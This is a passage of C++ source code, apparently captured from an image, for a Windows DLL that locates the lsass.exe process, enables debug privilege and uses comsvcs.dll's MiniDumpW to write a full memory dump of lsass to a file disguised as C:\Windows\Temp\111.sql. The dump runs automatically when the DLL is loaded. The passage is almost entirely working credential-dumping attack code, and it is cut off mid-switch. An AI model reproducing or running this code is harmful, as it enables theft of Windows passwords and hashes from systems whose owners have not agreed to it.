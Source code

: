 ```cpp
    LPCWSTR processName = L"";
    //遍历lsass.exe 的PID
    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}

BOOL CheckFileExists(PWCHAR file) {
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind = FindFirstFileEx(file, FindExInfoStandard, &FindFileData,FindExSearchNameMatch, NULL, 0);
    if (hFind == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    return TRUE;
}
int Dump() {
    WCHAR commandLine[MAX_PATH];
    WCHAR DumpFile[] = L"C:\\Windows\\Temp\\111.sql";
    _MiniDumpW MiniDumpW;
    DWORD lsassPID = 0;

    if (!CheckPrivilege()) {
        return -1;
    }

    if (!EnableDebugPrivilege()) {
        return -1;
    }
   

    if (CheckFileExists(DumpFile)) {
        return 0;
    }

    lsassPID = GetLsassPID();
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    _itow_s(lsassPID, commandLine, 10);
    lstrcatW(commandLine, L" ");
    lstrcatW(commandLine, DumpFile);
    lstrcatW(commandLine, L" full");
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
```